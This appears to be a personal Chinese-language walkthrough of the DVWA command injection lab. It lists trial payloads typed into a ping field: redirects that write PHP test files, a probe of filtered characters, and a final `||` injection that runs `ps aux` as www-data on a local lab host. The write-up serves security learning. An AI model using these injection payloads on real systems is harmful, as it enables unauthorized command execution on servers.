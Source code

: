 # Command Injection

> Objective: Remotely, find out the user of the web service on the OS, as well as the machines hostname via RCE.
>

可以直接跳過中間嘗試的部分，看結尾就好

先隨意 try try

```bash
1.1.11
```

```bash
1.1.&1
```

```bash
1.1.1.&1
```

```bash
1.1.1.1-1
```

```bash
1.1.1.-----1
```

...

感覺朝這方向會有點搞頭

```bash
$0
```

```bash
010010010001
```
```bash
0x8.0x8.0x8.0x8
```
```bash
0xFFFFFFFF
```
繼續 try...

感覺有機可趁

```bash
2&1 > ./test.txt
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/e3709c2d-852a-4848-aa58-51a5b21011f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T165314Z&X-Amz-Expires=86400&X-Amz-Signature=a37e45568800afd982135b1a39accf76ad6b9ca5e91b700ca7278a259a4662e1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```bash
http://dvwa.localtest/vulnerabilities/exec/test.txt
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6202a48c-cf09-4a00-a071-5665787a07f0/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T165340Z&X-Amz-Expires=86400&X-Amz-Signature=76e68e003c9baa4fc0c0bb8bb5bd9c78e5ff3dd2169d244c8e805740da703b5b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```bash
"1.1.1.1 <?php> echo 'hello'; ?>"> ./test.txt
```
```bash
"1.1.1.1 <?php echo 'hello'; ?>"> ./test.php
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2e5c0601-5e91-4a25-ae1c-2a7cf5129d44/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T165415Z&X-Amz-Expires=86400&X-Amz-Signature=0356aa3fb149afcb82cc9e8da5e0d2c6dced0cc2c32ea86bc8b809a21ef7943f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```bash
"1.1.1.1 <?php echo phpinfo(); ?>"> ./test.php
```

```bash
'1.1.1.1 <?php echo "<script>alert(1)</script>" ?>' &> ./test.php
```

```bash
'1.1.1.1 <?php eval\x28pwd\x29; ?>' &> ./test.php
```

```bash
http://dvwa.localtest/vulnerabilities/exec/test.php
```

500 代表有效果了
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/bf46c7e0-f170-4cb0-8653-de0ae206d543/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T165439Z&X-Amz-Expires=86400&X-Amz-Signature=07ce759b20ccbb2bdeee0238b2f7a8a70e926879ed55345109b8a83ee6c6ea98&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
崩潰 😭  先去躺平休息一下

試著塞入單引號和分隔字串
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a462ebc4-fba7-4a23-ad9f-34c69d67073c/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T165501Z&X-Amz-Expires=86400&X-Amz-Signature=6ffe29f0e290715746b11fb2727bd70aedd452a6b28761594025f0e1d9321a10&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

實在是沒招了，觀察看看哪些字元有被過濾

```jsx
'1.1.1.1    =-+_)(*&^%$#@!,./<>?;:][{}'  > ./log.txt
```

```jsx
PING 1.1.1.1    =+_*^%#@!,./<>?:][{} (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=55 time=9.075 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=55 time=8.122 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=55 time=12.018 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=55 time=9.620 ms

--- 1.1.1.1    =+_*^%#@!,./<>?:][{} ping statistics ---
4 packets transmitted, 4 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 8.122/9.709/12.018/1.437 ms
```

被視為合法:

```jsx
=+_*^%#@!~ <>/?[]{} ,.\|/:

```

被過濾:

```jsx
-)(&`$;
```

但要留意的是有些被過濾的字元若跟某些字元一起使用會被視為例外, 例如 `&>`

先回到這邊，只少能寫入檔案了，但如果要靠寫入檔案的方式寫成另一隻可執行檔，缺少太多可用字元

```jsx
'127.0.0.1' &> ./log.txt
```

### Done

終於 try 成功 😇

後面加上 `||` 就可以執行了

```jsx
'127.0.0.1'  > ./log.txt || ls
```

`|grep` 的 `|` 和  `grep` 之間不能有空白

```jsx
'127.0.0.1'  > ./log.txt || ps aux |grep httpd
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7e9c489f-ea1f-410c-bd30-b05598411a13/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T165531Z&X-Amz-Expires=86400&X-Amz-Signature=ccab9e0982fed2d340e4066889908b6aece9b1708a1c0664b6abc4a5ecf0b303&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```jsx
www-data   346  0.0  0.0   4296   756 ?        S    15:42   0:00 sh -c ping  -c 4 '127.0.0.1'  > ./log.txt |ps aux |grep httpd

www-data   349  0.0  0.0  11120   940 ?        S    15:42   0:00 grep httpd
```

### 心得

原本也有想過一些比較華麗但不切實際的方式，例如分段寫入或者覆蓋某些字元以達到想要的輸出檔案結果之類的...

有時候不用想太複雜，盡量先順著可行性高的方嘗試
